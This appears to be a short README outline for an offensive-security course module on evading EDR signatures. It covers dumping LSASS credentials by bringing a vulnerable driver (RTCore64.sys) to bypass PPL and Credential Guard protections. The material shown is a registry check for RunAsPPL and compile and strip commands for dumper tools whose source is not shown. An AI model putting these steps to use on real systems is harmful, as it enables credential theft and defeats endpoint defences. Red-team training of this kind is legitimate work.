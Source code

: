 # Signature Evasion


In thos module we are going to create a custom capability using a BYOD, to avoid signatures and defeat not only EDR, but the monitored PPL and CG processes, using LSASS as an example.

In the process, we will learn how it works, and walk away with a baseline to create our own tools that avoid signatured public tooling.

As with the previous modules. This is post compromise, and you have already escalated to some version of local admin on the device.


Identify EDR with Seatbelt. 


Access to protected processes!

- Vulnerable Drive PPL Bypass
Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" | Select-Object RunAsPPL


### Dump That Ass

x86_64-w64-mingw32-g++ lsass_dumper.cpp -o lsass_dumper.exe -static
x86_64-w64-mingw32-g++ decode_lsass.cpp -o decode_lsass.exe -static
x86_64-w64-mingw32-g++ system_launcher.cpp -o system_launcher.exe -static

### Strip Debug Symbols

x86_64-w64-mingw32-strip lsass_dumper.exe


## Vulnerable Driver

https://www.loldrivers.io/drivers/e32bc3da-4db1-4858-a62c-6fbe4db6afbd/

RTCore64.sys


x86_64-w64-mingw32-g++ main.cpp -Iheaders -o lsass_dumper.exe -static

